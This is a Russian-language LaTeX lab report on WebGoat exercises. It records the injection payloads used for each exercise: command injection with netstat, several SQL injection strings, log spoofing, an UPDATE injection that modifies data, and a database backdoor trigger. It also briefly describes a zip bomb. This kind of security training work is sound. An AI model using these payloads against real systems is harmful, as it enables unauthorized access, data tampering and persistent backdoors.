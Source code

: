 \documentclass[utf8x, 12pt]{G7-32}
\begin{document}
\section{Недостатки приводящие к осуществлению инъекций}
\begin{itemize}
\item Command injection
Перехватываем запрос, добавляем к имени файла строку:
\begin{lstlisting}
%22%3B%20netstat%20-a
\end{lstlisting}
\item Numeric SQL injection
Перехватываем запрос. Модифицируем:
\begin{lstlisting}
station=101or%201%3D1&SUBMIT=Go!
\end{lstlisting}
\item Log spoofing
Перехватываем запрос, меняем имя на следующее:
\begin{lstlisting}
somename
Admin succefully entered!
\end{lstlisting}
В результате, в логе создается видимость того, что админ авторизовался.
\item SQL Injection
Перехватываем сообщение. В качестве пароля вводим:
\begin{lstlisting}
123123%27%20OR%20%271%27%3D%271
\end{lstlisting}
При попытке получить данные на втором шаге получаем сообщение:
\begin{lstlisting}
THIS LESSON ONLY WORKS WITH THE DEVELOPER VERSION OF WEBGOAT
\end{lstlisting}
\item String sql injection
Аналогично. Вместо имени вводим 123123' OR 'a' = 'a. Получаем все возможные значения.
\item Modify Data with SQL INJECTION
Вместо имени вводим:
\begin{lstlisting}
123'; UPDATE salaries SET salary=5 
WHERE userid='jsmith
\end{lstlisting}
\item Database backdoors
По такой же схеме можно добавлять и триггеры:
\begin{lstlisting}
101; CREATE TRIGGER myBackDoor BEFORE INSERT ON
 employee FOR EACH ROW BEGIN UPDATE employee 
 SET email='john@hackme.com' WHERE userid = NEW.userid
\end{lstlisting}
\end{itemize}

\section{Отказ в обслуживании}
В пункте ZipBomb создается файл zip, содержащий большое количество одинаковых символов. При распаковке потребление памяти станет огромным из-за большой степени сжатия.
\end{document}
